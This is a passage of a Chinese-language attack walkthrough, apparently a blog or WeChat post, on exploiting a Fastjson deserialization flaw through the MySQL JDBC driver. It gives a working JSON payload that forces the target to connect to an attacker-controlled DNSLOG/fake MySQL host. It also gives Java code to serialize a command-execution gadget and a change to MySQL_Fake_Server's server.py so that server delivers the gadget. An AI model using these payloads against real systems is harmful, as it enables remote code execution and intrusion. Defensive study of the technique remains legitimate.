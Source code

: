 本地和目标系统都读取不成功，本地  
mysql-connector-java为5.1.47  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2KhkVV3KmPOjdkP3kPbC0iaodPbPkGWgONtcnpBm59GBlwpG154NBRz1MlQ/640?wx_fmt=png&from=appmsg "")  
  
转战反序列化，先进行DNSURL利用链探测，反序列化操作是否成功  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "yso_URLDNS_http://YOUR_DNSLOG",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
本地演示  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2KhkRx8lbwqpdSqRGDicMgFB1fgnmiaW7P8yvGXwPDAcwiaia3aTiaJPhn4dvww/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2Khkk9dIbjW5mgnvrUblFiat41HeibKT3XONdhkSs4brqV8XXwIllf0Iak3A/640?wx_fmt=png&from=appmsg "")  
  
既然能正常执行反序列化操作，那么下一步就需要测试命令执行。这里使用到了@Y4tacker大佬给出的利用链  
  
```
https://paper.seebug.org/2067/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2Khk3w8Ss5y8Lia5CDgxFOicxlE0DibsYXcial7UV73k13lCSvZu3EqRS4ovwg/640?wx_fmt=png&from=appmsg "")  
## 代码微调  
## 直接拿文章中给出的代码进行修改，添加这段代码，将反序列化的内容保存到文件中。自定义执行命令  
```
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("fastjson1268.bin"));
oos.writeObject(hashMap);
oos.close();
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5vcxXGxJwvo3NmiaV5ib2KhkfdpZBNn2loyDpIiaGd6ibcUmAuPZRG8Hgepar6ALvajKQSC2Qs972b9A/640?wx_fmt=png&from=appmsg "")  
  
还要修改MySQL_Fake_Server  
项目server.py文件，get_yso_content函数的内容，让其从指定文件中读取  
```
with open(r'fastjson1268.bin','rb') as f:
    file_content = f.read()
return file_content
```  
  